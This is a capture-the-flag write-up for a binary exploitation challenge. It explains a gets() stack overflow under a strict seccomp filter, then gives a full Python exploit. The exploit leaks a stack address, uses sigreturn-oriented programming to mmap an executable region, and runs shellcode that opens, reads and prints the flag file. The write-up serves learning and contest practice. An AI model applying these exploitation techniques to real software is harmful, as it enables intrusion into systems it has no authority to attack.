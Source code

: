 ---
title: "[WRITE UP] - devnull-as-a-service"
description: 'Yes, a CTF Write up'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-01-30
tags: ['2025', 'WriteUp', 'PWN']
authors: ['kdot']
draft: false
---

# Description
> A few months ago, I came across this website. Inspired by it, I decided to recreate the service in C to self-host it.
To avoid any exploitable vulnerabilities, I decided to use a very strict seccomp filter. Even if my code were vulnerable, good luck exploiting it.
PS: You can find the flag at `/home/ctf/flag.txt` on the remote server.

# Challenge Overview
The challenge involves exploiting a buffer overflow in a `non-PIE` binary with a strict `seccomp` filter. The goal is to read the flag from `/home/ctf/flag.txt` using allowed syscalls. The key steps involve leaking a stack address, crafting a `Sigreturn-Oriented Programming (SROP)` chain to create an `RWX` memory region, and executing shellcode that utilizes `openat`, `read`, and `write` syscalls.

# Binary Analysis
- Security Features: `Partial RELRO`, `Stack Canary`, `NX Enabled`, `No PIE`.
- Vulnerability: `gets()` in `dev_null()` causing a `buffer overflow`.
- Seccomp Rules: Blocks dangerous syscalls (e.g., `open`, `execve`) but allows `openat`, `read`, `write`, and `sigreturn`.

# Exploit

Looking back, this article seems to be a shellcode article because it has seccomp and although NX is enabled, we can still execute shellcode through ROP, we can use some syscalls like `mmap`, `mprotect` to grant permissions to a certain memory area. This article is special in that there are no common `gadgets` for us to execute a normal ROP chain, but instead there are `syscalls` and `pop rax`, we can immediately think of using `SROP`.

:::note
`Sigreturn-Oriented Programming (SROP)` is an exploitation technique that abuses the Linux kernel’s signal-handling mechanism. When a process receives a signal (e.g., segmentation fault), the kernel saves the process’s execution context (registers, stack, etc.) onto the stack. After handling the signal, the kernel restores the context using the sigreturn syscall. `SROP` exploits this mechanism by forging a fake signal frame on the stack and triggering sigreturn to hijack control of all registers, effectively allowing arbitrary syscalls or code execution.
:::

So the idea for this:

- Leak Stack Address: Use a ROP chain to leak `__libc_stack_end` to determine stack layout.
- `SROP` for RWX Memory: Use `SROP` to call `mmap` and create an executable memory region.
- Shellcode Execution: Inject shellcode using `openat` to open the flag, `read` it, and `write` to stdout.

## Exploit:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./dev_null', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*dev_null+52
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

'''
[*] '/home/alter/CTFs/x3CTF/devnull-as-a-service/dev_null'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
'''

# Leak __libc_stack_end address
def stage1():

    pl = flat([
        b'A'*16,
        pop_rdi,
        exe.sym.__libc_stack_end,
        exe.sym.puts,
        exe.sym.main,
    ])

    sl(pl)
    rl()
    __libc_stack_end = unpack(p.recv()[:6].ljust(8, b"\x00"))
    slog("__libc_stack_end:", __libc_stack_end)

    return __libc_stack_end

# Padding to __libc_stack_end to prepare for ret2main
def stage2():

    pl = flat([
        b'A'*16,
        pop_rdi,
        stack_address,
        exe.sym.gets,
        exe.sym.main,
      ])

    sl(pl)
    sl(cyclic(40) + p64(exe.sym.main))

# Setup and execute Sigreturn
# void *mmap(void addr[.length], size_t length, int prot, int flags, int fd, off_t offset);
def stage3():

    frame = SigreturnFrame()
    frame.rax = 0x9    # mmap syscall
    frame.rdi = rwx    # addr
    frame.rsi = 0x1000 # size
    frame.rdx = 0x7    # prot (RWX)
    frame.r10 = 0x22   # flags (MAP_ANONYMOUS|MAP_PRIVATE)
    frame.r8 = 0       # fd
    frame.r9 = 0       # offset
    frame.rsp = stack_address + 0x28 # return to main
    frame.rip = syscall

    pl = flat([
        b'A'*16,
        pop_rax,
        0xf,
        syscall
    ])
    pl += bytes(frame)

    sl(pl)

# Inject payload to rwx region
def stage4():

    pl = flat([
        b'A'*16,
        pop_rdi,
        rwx,
        exe.sym.gets,
        exe.sym.main,
    ])

    sc = asm('''nop\n'''*0x10+'''

        xor rax, rax
        mov rax, 0x101
        mov rdi, -1
        lea rsi, [rip + file_path]
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 0x50
        mov rax, 0
        syscall

        mov rdx, 0x50
        mov rdi, 1
        mov rsi, rsp
        mov rax, 1
        syscall

        file_path:
            .asciz "/home/ctf/flag.txt"

        ''', arch='amd64')

    sl(pl)
    sl(sc)

# Execute that shellcode
def stage5():

    pl = flat([
        b'A'*16,
        rwx
    ])

    sl(pl)

def exploit():
    global pop_rdi, stack_address, pop_rax, syscall, rwx

    pop_rdi = 0x413795 # pop rdi; ret;
    pop_rax = 0x42193c # pop rax; ret;
    syscall = 0x40bcd6 # syscall; ret;
    rwx = 0x11000
    stack_address = stage1()

    stage2()
    stage3()
    stage4()
    stage5()

    interactive()

if __name__ == '__main__':
    exploit()
```
